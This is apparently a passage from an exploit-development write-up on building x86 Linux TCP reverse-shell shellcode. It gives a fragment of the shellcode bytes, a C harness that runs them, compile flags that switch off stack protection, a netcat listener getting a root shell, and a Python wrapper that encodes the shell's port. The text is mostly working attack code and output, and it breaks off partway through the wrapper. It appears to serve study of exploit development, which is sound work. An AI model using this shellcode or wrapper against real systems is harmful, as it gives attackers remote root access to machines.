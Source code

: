 ```c
"\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\xcd\x80";
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
### Compile the C program
```console
gcc -fno-stack-protector -z execstack -o shellcode shellcode.c 
```
### Testing if our shellcode works with the program
#### Terminal Window 1
```console
root# ./shellcode 
Shellcode Length:  80
```
#### Terminal Window 2
```console
root# nc.traditional -nvlp 1337
listening on [any] 1337 ...
connect to [127.1.1.1] from (UNKNOWN) [127.0.0.1] 36507
id
uid=0(root) gid=0(root) groups=0(root)
```

# Tcp Reverse Shell Wrapper
+ The purpose of this wrapper is to easily configure the:
  - Destination IP Address of the Reverse Shell
  - Destination TCP Port of the Reverse Shell

#### Python Reverse Shell Wrapper
```python
#!/usr/bin/python
# Filename: revshWrapper.py
# Author:   boku

## TCP Port
# Take users TCP port as input
port = raw_input("Enter TCP Port Number: ")
# Convert input string to an integer
deciPort = int(port)
# Format the integer to Hex Integer
hexPort = "{:02x}".format(deciPort)
# Check the length of the output hex string
hexStrLen = len(hexPort)
# Check if the hex string is even or odd with modulus 2
oddEven = hexStrLen % 2
# if it returns 1 then it's odd. We need to add a leading 0
if oddEven == 1:
    hexPort = "0" + hexPort
# converts the  port number into the correct hex format
tcpPort = "\\x".join(hexPort[i:i+2] for i in range(0,len(hexPort), 2))
print "Your TCP Port in Hex is:","\\x"+tcpPort
nullCheck = deciPort % 256
if nullCheck == 0 :
    print "Your TCP Port contains a Null 0x00."
    print "Try again with a different Port Number."
    exit(0)

```

[1]: 1